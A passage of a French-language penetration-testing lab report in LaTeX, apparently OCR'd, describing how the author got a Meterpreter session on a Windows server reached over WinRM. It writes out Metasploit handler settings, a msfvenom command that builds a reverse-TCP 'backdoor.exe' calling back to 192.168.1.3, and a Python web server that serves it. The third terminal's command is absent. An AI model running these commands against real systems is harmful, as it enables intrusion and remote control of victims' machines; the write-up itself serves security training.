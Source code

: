 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{figure}[H]
        \label{fig:SuccessWinRM}
    \end{figure}
    \item Comme la session créée précédemment n'utilise pas powershell (car \texttt{FORCE\_VBS} est mis à vrai), je vais utiliser un autre module et powershell. Malheureursement, le payload powershell ne fonctionnait pas (car la version de powershell supportée sur le système du serveur est trop vieille). J'ai donc envoyé comme payload une commande powershell qui va revenir chercher le payload sur la kali. Pour cela, j'ai donc besoin (1.) d'un terminal qui va écouter pour ouvrir la session meterpreter, (2.) d'un terminal qui va servir de serveur web pour envoyer le payload du premier terminal, et (3.) d'un terminal qui envoie la commande de téléchargement du payload au serveur.
    \begin{example}
        \begin{enumerate}
            \item Terminal du dessus sur la figure \ref{fig:SuccessWinRM2}:
            \begin{itemize}
                \item \texttt{\footnotesize search windows reverse tcp payload}
                \item \texttt{\footnotesize use multi/handler}
                \item \texttt{\footnotesize set payload windows/x64/meterpreter/reverse\_tcp}
                \item \texttt{\footnotesize set LHOST 192.168.1.3}
                \item \texttt{\footnotesize run}
            \end{itemize}
            \item Terminal en bas à gauche sur la figure \ref{fig:SuccessWinRM2}:
            \begin{itemize}
                \item \texttt{\footnotesize msfvenom -{}-list format}
                \item \texttt{\footnotesize msfvenom -p windows/x64/meterpreter/reverse\_tcp -f exe} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.exe}
                \item \texttt{\footnotesize sudo python3 -m http.server 80}
            \end{itemize}
            \item Terminal en bas à droite sur la figure \ref{fig:SuccessWinRM2}:

\end{enumerate}
\end{example}
\end{enumerate}
\end{document}

